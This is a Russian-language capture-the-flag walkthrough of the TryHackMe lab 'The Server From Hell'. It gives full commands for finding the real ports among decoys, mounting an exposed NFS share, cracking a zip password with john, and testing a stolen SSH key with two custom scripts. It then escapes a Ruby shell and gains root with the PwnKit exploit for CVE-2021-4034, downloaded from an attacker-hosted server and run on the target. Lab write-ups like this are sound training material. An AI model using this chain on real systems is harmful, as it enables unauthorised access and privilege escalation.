









# TryHackMe: [The Server From Hell](https://tryhackme.com/room/theserverfromhell)

*Дата: 05.11.26-08.11.26*

### Сложность: Medium

**Мой IP: 192.168.130.244**

**IP Цели: 10.114.164.175**

### **Лаборатория: TryHackMe, все действия легитимны**

### Цель - получить три флага. flag.txt который встретится нам по пути, флаг пользователя и флаг root

**Инструменты: nmap, bash, nano, netcat, mount, john, awk, [MyScript](https://github.com/amniz1ya1-droid/my-first-script/blob/main/README.md)** 

---

Сегодня у нас с вами машинка нервотрёпка на `TryHackMe` - **The Server From Hell**, машинка **medium** сложности, которую многие ненавидят. Начнём со стандартного скана с помощью `nmap`:

```bash
sudo nmap -sV -sC -p- 10.114.164.175 # НЕ ИСПОЛЬЗОВАТЬ КОМАНДУ, ЧИТАТЬ ЧТО НИЖЕ
```

Но команда обещала идти **3 часа**, что очень много. Это огромное число, именно поэтому мы с вами используем другую структуру:

```bash
sudo nmap -T4 -p- --min-rate 1000 10.114.164.175
```

Флаг `--min-rate` означает, чтобы `nmap` отправлял минимум 1000 пакетов, и мы экономим с вами время что узнать что там на самом деле

Итак, сканирование `nmap` закончилось, и нам выдало очень, очень много портов. Очевидно что все эти порты ненастоящие, но и среди них есть обычные, поэтому давайте убирать все лишние порты

Но как это сделать? Тут нам поможет `grep`, `sort` и `uniq`. Давайте сначала сделаем весь наш с вами вывод в текстовый файл:

```bash
sudo nmap -T4 -p- --min-rate 1000 10.114.164.175 > ~/Desktop/nmap-results.txt
```

Отлично, теперь посмотрим с каким объёмом информации мы имеем дело:



**30 тысяч портов**, из которых нам нужно найти реальные. Теперь давайте использовать наши утилиты, и сначала уберём самое частое и бесполезное слово в нашем выводе - **unknown**. Это значит что сервер ответил нашему сканеру, что *"Да-Да, конечно тут есть порт"*, но на самом деле там ничего нету. Давайте уберём это слово с помощью `grep`:

```bash
cat ~/Desktop/nmap-results.txt | grep -v "unknown" > ~/Desktop/clear1-nmap-results.txt
```

Отлично, теперь поиск намного уже, чем раньше. Осталось 6 тысяч портов, но и это очень много. Но как узнать настоящий ли порт или нет? Дело в том, что настоящий порт будет реагировать на `netcat` *(т.е попытку подключения к нему)* а фальшивый - нет. Это очень долго, вручную сканировать примерно 6000 портов, но давайте возьмём обычные порты, которые чаще всего встречается открытыми. 21-ый, 80-ый, 8080-ый, и посмотрим получится ли у нас подключится:

`
nc 10.114.164.175 80
nc 10.114.164.175 8080
nc 10.114.164.175 22
nc 10.114.164.175 21
`



И посмотрим на вывод 21-го порта: В середине есть подсказка, идти на 12345-ый порт. Так-же здесь есть фейковые сообщения про неверные `login` и `password`, но это просто машинка пытается нас запутать. Попробуем подключится к 12345-ому порту:

```bash
nc 10.114.164.175 12345
```



И тут есть мощнейшая подсказка: `NFS` порт находится на обычном порте, *(обычный порт у него - 2049)*, поэтому мы можем попробовать узнать, к каким папкам на сервере у нас есть доступ:

```bash
showmount -e 10.114.164.175
```

И под раздачу попадает папка `/home/nfs`, это огромная зацепка! Давайте теперь создадим точку монтирования, и узнаем что там:

```bash
sudo mkdir /mnt/serverhell # Создаем папку serverhell 
```

```bash
sudo mount -t nfs 10.114.164.175:/home/nfs /mnt/serverhell # Делаем её точкой монтирования
```

И теперь перемещаемся в папку `/mnt/serverhell`, чтобы узнать что же там есть

```bash
cd /mnt/serverhell
```

```bash
ls -la
```

И супер, тут есть файл `backup.zip` , он заархивирован, давайте скопируем его себе на рабочий стол и отключим точку монтирования:

```bash
cp backup.zip ~/Desktop/backup.zip
```

```bash
sudo umount /mnt/serverhell
```

И теперь распакуем файл:

```bash
unzip ~/Desktop/backup.zip
```



Но тут есть пароль, однако мы с вами смогли увидеть очень много чего ценного:

1. Посмотрите внимательно на путь файлов, мы знаем что имя пользователя - **hades**
2. Внутри есть файл с закрытым, приватным ключом **id_rsa**, который мы можем использовать для входа в систему под пользователем `hades`
3. Там есть файл **flag.txt**, это наш первый флаг
4. Так-же там есть файл **hint.txt**, в котором возможно может быть намёк или подсказка.

Но как нам узнать пароль? Давайте для этого используем утилиту **john**, и для начала с помощью `john` достанем хэш пароля файла `backup.zip`:

```bash
zip2john ~/Desktop/backup.zip > zip-hash.txt
```

Супер, а теперь используем словарь `rockyou` и перебор `john`, для того чтобы узнать пароль:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zip-hash.txt
```

И пароль оказался - **zxcvbnm**, смешной пароль для таких ценных данных. Теперь распаковываем файл зная пароль:

```bash
unzip ~/Desktop/backup.zip
```

*(Если просит пароль, вводим zxcvbnm, обязательно нижним регистром)* Теперь перемещаемся:

```bash
cd ~/home/hades/.ssh
```

И теперь, сначала читаем первый флаг:

```bash
cat ~/home/hades/.ssh/flag.txt
```

Результат вводим в комнату на [TryHackMe](https://tryhackme.com/room/theserverfromhell), теперь давайте скопируем `id_rsa` в наш рабочий стол:

```bash
cp ~/home/hades/.ssh/id_rsa ~/Desktop/id_rsa
```

Теперь у нас есть имя пользователя, и есть даже ключ для подключения. но что нам делать с ними, когда мы не знаем на каком порте `SSH`? Давайте прочитаем подсказку:

```bash
cat ~/home/hades/.ssh/hint.txt
```

И там выдало следущее:

`2500-4500`

У меня сразу появилось предположение, что это диапазон портов, и что один из этих портов - это `SSH`. Но как нам найти его, перебирать вручную каждый из 2000 портов непрофессионально, поэтому я предлагаю использовать [мой скрипт](https://github.com/amniz1ya1-droid/my-first-script/blob/main/README.md), который сделает это за нас. Сначала перемещаемся в нашу обычную рабочую папку для удобства:

```bash
cd ~
```

Теперь создаём файл с помощью `nano`:

```bash
nano my-own-script.sh
```

И теперь загружаем сюда [мой скрипт](https://github.com/amniz1ya1-droid/my-first-script/blob/main/README.md):

```bash
#!/bin/bash

if [ -z "$1" ]; then
    echo -e "Error! \n\n Valid Use: $0 <IP> [start_port] [end_port] <what_port_search> \n\n if [start_port] and [end_port] nothing, scan all 65535 ports. If [what_port_search] nothing, searching every port \n\n Example: <path/to/tool> 10.114.51.234 100 500 http"

    exit 1
fi

TARGET_IP=$1

seq1=${2:-1}

seq2=${3:-65535}

whatsearch=$4

export TARGET_IP
export whatsearch

echo "Start scan $TARGET_IP on ports $seq1-$seq2, search port $whatsearch..."

echo " "

seq $seq1 $seq2 | xargs -P 50 -I {} sh -c '
    OUTPUT=$(nc -v -n -w 1 '$TARGET_IP' {} < /dev/null 2>&1 | grep -i "$whatsearch")
    if [ -n "$OUTPUT" ]; then
        echo "[+] Port {}: $OUTPUT"
    fi
'

echo "\n Script end work!"
```

А теперь используем его

```bash
./my-own-script.sh 10.114.164.175 2500 4500 ssh > ~/Desktop/script-results.txt
```

И теперь смотрим, что там

```bash
cat ~/Desktop/script-results.txt
```



Но тут довольно много портов, и скажите мне кто я такой чтобы перебирать каждый из них поштучно? Сначала записываем каждый из них с помощью `awk`:

```bash
awk '{print $3}' ~/Desktop/script-results.txt | sort -n | grep -vE 'work!|IPSSHd|10.114.164.175' | sed -E 's/^([0-9]{4}):/\1/' > ~/Desktop/not-final.txt 
```

Теперь, когда у нас есть список всех портов, используем **второй** мой скрипт. Сначала создаём файл:

```bash
nano second-scripts.sh
```

Теперь используем мой код:

```bash
#!/bin/bash

if [ -z "$1" ] || [ -z "$2" ]; then
    echo -e "Usage: $0 <IP> <FILE_WITH_PORTS> [PATH_TO_KEY]"
    echo -e "Example: $0 10.114.164.175 ~/Desktop/final.txt ~/home/hades/.ssh/id_rsa"
    exit 1
fi

IP=$1
FILE=$2
KEY=${3:-"$HOME/home/hades/.ssh/id_rsa"}
USER="hades"

if [ ! -f "$FILE" ]; then
    echo "Error: File '$FILE' not found!"
    exit 1
fi

echo "Starting SSH auth check on $IP..."
echo "Using key: $KEY"
echo " "

PORTS=$(cat "$FILE")

if [ -z "$PORTS" ]; then
    echo "No ports found in $FILE. Exiting."
    exit 1
fi

for port in $PORTS; do
    echo -n "Trying port $port... "
    timeout 3 ssh -p "$port" -i "$KEY" -N \
        -o BatchMode=yes \
        -o ConnectTimeout=2 \
        -o StrictHostKeyChecking=no \
        "$USER"@"$IP" 2>/dev/null

    if [ $? -eq 124 ] || [ $? -eq 0 ]; then
          echo -e "REAL SSH FOUND ON PORT: $port"
        break
    else
        echo "Failed"
    fi
done

echo "Script end work!"
```



И вот, `SSH` на 3333-ем порте. Теперь давайте подключимся к ней:

```bash
ssh -p 3333 -i ~/home/hades/.ssh/id_rsa hades@10.114.164.175
```

Но мы оказались в `Ruby`, и тут нам недоступны большинства команд. Давай выберемся отсюда с помощью`system()`:

```bash
system("/bin/sh")
```

И теперь проверяем кто мы

```bash
whoami
```



И да, мы `hades`. Проверяем `user` флаг:

```bash
cat /home/hades/user.txt
```

Теперь, прочитав 2/3 флагов, нам нужно повышать привилегии до `root`. Сначала проверим `sudo -l`:

```bash
sudo -l
```

Но мы не знаем пароль.. ладно. Тогда ищем нестандартный `SUID` бинарники:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



И тут есть файл `/usr/bin/pkexec`. Критическая уязвимость [CVE-2021-4034](https://support.scc.suse.com/s/kb/Security-vulnerability-CVE-2021-4034-local-root-exploit-in-polkit-aka-pwnkit?language=en_US), которую мы сейчас используем. Для начала скачаем эксплоит для kali:

```bash
wget https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit
```

Теперь запускаем `python` сервер на kali:

```bash
python3 -m http.server 8000
```

А на `SSH` скачиваем файл с kali:

```bash
wget http://192.168.130.244:8000/PwnKit -O PwnKit
```

Теперь меняем права с помощью `chmod`:

```bash
chmod +x PwnKit
```

И запускаем `PwnKit`:

```bash
./PwnKit
```

И теперь, проверяем кто мы:

```bash
whoami
```



Теперь читаем последний флаг:

```bash
cat /root/root.txt
```

И проходим эту машинку.

## На эту троль машинку не вижу смысл писать рекомендации, но напишу:

1. **Закрыть NFS сервер**
2. **Убрать SUID права у /usr/bin/pkexec**
3. **Поменять пароль у backup.zip и сделать его более сложным**
